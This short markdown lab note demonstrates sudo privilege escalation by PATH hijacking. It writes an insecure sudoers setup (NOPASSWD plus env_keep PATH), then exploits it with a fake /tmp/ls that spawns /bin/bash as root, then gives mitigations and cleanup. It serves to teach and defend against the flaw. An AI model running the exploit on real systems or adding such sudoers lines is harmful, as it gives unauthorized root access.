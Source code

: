 # Setup

```sh
# root
cp /etc/sudoers /etc/sudoers.bak
adduser sudo1
echo "sudo1 ALL=(ALL) NOPASSWD: /home/sudo1/script.sh" >> /etc/sudoers
echo "Defaults env_keep = PATH" >> /etc/sudoers
echo 'ls -la' > /home/sudo1/script.sh
chmod +x /home/sudo1/script.sh
```

# Exploit

```bash
echo '/bin/bash' > /tmp/ls

sudo PATH=/tmp/:$PATH /home/sudo1/script.sh
```


# Mitigate

```bash
# Remove env_keep += PATH
# Set secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
```

# Clean Up

```bash
deluser sudo1 --remove-home
cp /etc/sudoers.bak /etc/sudoers
```